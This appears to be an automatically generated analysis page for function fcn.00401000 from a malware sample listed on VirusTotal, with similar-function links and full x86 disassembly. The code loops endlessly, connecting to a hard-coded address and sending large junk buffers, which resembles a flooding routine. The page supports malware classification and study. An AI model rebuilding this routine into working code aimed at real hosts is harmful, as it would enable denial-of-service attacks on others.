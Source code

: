 ```yaml
---
layout: post
title:  "fcn.00401000 @ 69b3c79878674ea715338a112bb5caa6"
date:   2021-08-30 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** fcn.00401000
- **Origin (md5):** 69b3c79878674ea715338a112bb5caa6
- **VirusTotal:** [virustotal.com/gui/file/69b3c79878674ea715338a112bb5caa6][virustotal_ref]

# Code Tags
<span class="tag" id="SOCKET">SOCKET</span>


# Similar Functions

1. [fcn.0041aad0][similar_1_ref] (sim.: 0.8291102417043397)
2. [fcn.00425a66][similar_2_ref] (sim.: 0.8147215564985661)
3. [fcn.0045fdba][similar_3_ref] (sim.: 0.8081279954377989)
4. [fcn.00414d40][similar_4_ref] (sim.: 0.7972044549254498)
5. [fcn.0041c833][similar_5_ref] (sim.: 0.7968326080433857)


# Disassembled Code

{% highlight nasm %}
push ebp
mov ebp,esp
mov eax,0x10008
call fcn.004181d0
mov eax,dword[0x42e364]
xor eax,ebp
mov dword[ebp-4],eax
push ebx
push esi
push edi
mov ebx,0x10000
push ebx
lea eax,[ebp-0x10004]
push 0xcc
push eax
call fcn.00411550
mov esi,dword[sym.imp.WS2_32.dll_send]
mov edi,dword[sym.imp.KERNEL32.dll_Sleep]
add esp,0xc
push 6
push 1
push 2
call dword[sym.imp.WS2_32.dll_socket]
push 0x10
push 0x430ac0
push eax
mov dword[ebp-0x10008],eax
call dword[sym.imp.WS2_32.dll_connect]
push 0
push ebx
lea eax,[ebp-0x10004]
push eax
push dword[ebp-0x10008]
call esi
push 0x64
call edi
push 0
push ebx
lea eax,[ebp-0x10004]
push eax
push dword[ebp-0x10008]
call esi
push dword[ebp-0x10008]
call dword[sym.imp.WS2_32.dll_closesocket]
push 0x3e8
call edi
jmp 0x401040
{% endhighlight %}


[similar_1_ref]: /report/fcn.0041aad0@ba5ec83721de3ca10b3c9583f3b2c6a1
[similar_2_ref]: /report/fcn.00425a66@ba5ec83721de3ca10b3c9583f3b2c6a1
[similar_3_ref]: /report/fcn.0045fdba@d96761eb00d2d97e2b6f5ffffed0b46a
[similar_4_ref]: /report/fcn.00414d40@d32515577b2cd57bf3dd6c5e3c37e219
[similar_5_ref]: /report/fcn.0041c833@ba5ec83721de3ca10b3c9583f3b2c6a1
[virustotal_ref]: https://www.virustotal.com/gui/file/69b3c79878674ea715338a112bb5caa6